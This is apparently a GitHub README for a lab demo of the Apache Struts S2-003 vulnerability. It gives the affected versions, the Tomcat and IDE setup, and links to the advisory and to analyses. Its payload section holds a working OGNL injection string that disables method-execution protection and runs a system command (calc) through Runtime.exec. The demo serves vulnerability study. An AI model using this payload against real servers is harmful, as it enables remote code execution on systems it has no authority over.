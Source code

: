 # S2-003 Demo

## Summary

Impact of vulnerability: Remote server context manipulation

Affected Software: `Struts 2.0.0` - `Struts 2.1.8.1`

Problem: `XWork` bypass allows `OGNL` statement execution

## Environment

Struts2 Version: `struts-2.0.11.2-all`

Server: `Tomcat 6.0.9` (Only in this version did I run payload successfully).

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

## POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417]({15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

## payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)
